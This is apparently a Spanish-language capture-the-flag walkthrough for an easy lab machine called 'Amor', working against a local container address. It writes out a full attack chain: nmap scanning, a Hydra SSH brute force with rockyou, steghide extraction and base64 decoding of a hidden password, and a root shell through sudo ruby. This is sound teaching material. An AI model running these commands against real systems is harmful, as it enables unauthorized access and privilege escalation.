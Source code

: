 Maquina: Amor 

Autor: Romabri 

Dificultad: Facil

ping 172.17.0.2 -c 1

nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2
Vemos que esta abierto el puerto 22 SSH y el puerto 80 HTTP

accedemos a la pagina web
https://172.17.0.2

Usamos Gobuster para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio

Gobuster no ha encontrado nada pero en una de las entradas vemos algo interesante:
Tenemos dos usaurios

Hacemos un ataque de fuerza bruta con Hydra
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

Ahora accedemos vía SSH
ssh carlota@172.17.0.2

vemos que hay este directorio /home/carlota/Desktop/fotos/vacaciones y en dicho directorio hay una imagen, la descargamos.

Este comando nos permite descargar archivos desde ssh

scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/romabri/Desktop/maquina/

si abrimos la imagen nos encontramos esto:

Este comando nos extrae información oculta en la imagen
steghiede extract -sf imagen.jpg 

Nos pide que pongamos contraseña si no ponemos nada y damos a enter nos ha generado un archivo secret.txt. Dentro del archivo secret.txt encontramos algo cifrado en base 64

Lo desciframos de la siguiente forma: 

echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 --decode

Cuando hacemos esto nos aparece lo siguiente:

Podría ser una contraseña pero para el usuario Juan no funciona vamos a seguir mirando dentro del usuario Carlota

Si escribimos el comando env vemos algo extraño

El texto cita a un tal oscar vamos a probar la contraseña que hemos encontrado dentro de la imagen con este usaurio

ssh oscar@172.17.0.2

Vamos al escritorio de oscar y vemos un achivo con un texto

Si hacemos un sudo -l nos aparece lo siguiente

Ejecutamos el siguiente comando 

sudo /usr/bin/ruby -e 'exec "/bin/sh"'

Whoami
